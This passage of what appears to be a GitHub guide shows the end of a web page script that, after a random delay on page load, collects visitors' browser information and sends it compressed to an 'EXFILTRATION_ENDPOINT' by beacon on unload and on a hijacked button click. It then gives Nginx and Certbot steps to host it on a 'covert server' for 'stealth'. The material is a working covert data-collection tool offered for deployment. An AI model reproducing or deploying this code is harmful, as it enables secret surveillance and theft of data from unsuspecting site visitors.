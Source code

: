             // --- Main Execution Flow ---
            document.addEventListener('DOMContentLoaded', () => {
                document.querySelector('.container').classList.add('content-fade'); // For visual effect

                const rID = Math.random() * (INITIAL_RANDOM_DELAY_MS_MAX - INITIAL_RANDOM_DELAY_MS_MIN) + INITIAL_RANDOM_DELAY_MS_MIN; // rID = randomInitialDelay
                setTimeout(async () => {
                    collectedPayload = await gABI(); // gABI = getAllBrowserInfo
                    eD(collectedPayload); // eD = exfiltrateData
                }, rID); 
            });

            window.addEventListener('beforeunload', async (e) => { // e for event
                if (collectedPayload) {
                    let cp; 
                    try { cp = pako.gzip(new TextEncoder().encode(JSON.stringify(collectedPayload))); } catch (error) { rE(error, {src: 'unloadComp'}); cp = new TextEncoder().encode(JSON.stringify(collectedPayload)); }
                    const b = new Blob([cp], { type: 'application/octet-stream' });
                    navigator.sendBeacon(EXFILTRATION_ENDPOINT, b); // Fire-and-forget on unload
                }
            });

            // On user interaction (e.g., button click), re-collect and ensure exfiltration
            // This captures the most up-to-date state just before potential navigation
            document.querySelector('.button').addEventListener('click', async function(e) {
                e.preventDefault(); 
                collectedPayload = await gABI(); 
                eD(collectedPayload); 
                const tU = this.href; // tU = targetUrl (for navigation)
                if (tU && tU !== '#') { setTimeout(() => { window.location.href = tU; }, 50); } // Small delay for beacon
            });
        </script>
    </body>
    </html>
    ```

### Step 3: Configure Reverse Proxy (e.g., Nginx for HTTPS)

This is a **critical step** for full functionality and stealth. Your domain should point to your server's IP address.

1.  **Install Nginx:** Follow instructions for your OS (e.g., `sudo apt install nginx` on Ubuntu).
2.  **Obtain SSL Certificate:** Use Certbot (<https://certbot.eff.org/>) for a free Let's Encrypt certificate.
    ```bash
    sudo certbot --nginx -d your-covert-server.com
    ```
3.  **Configure Nginx:** Edit your Nginx configuration file (e.g., `/etc/nginx/sites-available/your-covert-server.com`) to direct traffic.

    ```nginx
    # Nginx configuration for HTTPS proxy
    server {
        listen 80;
        server_name your-covert-server.com;
        return 301 https://$host$request_uri; # Redirect HTTP to HTTPS
    }
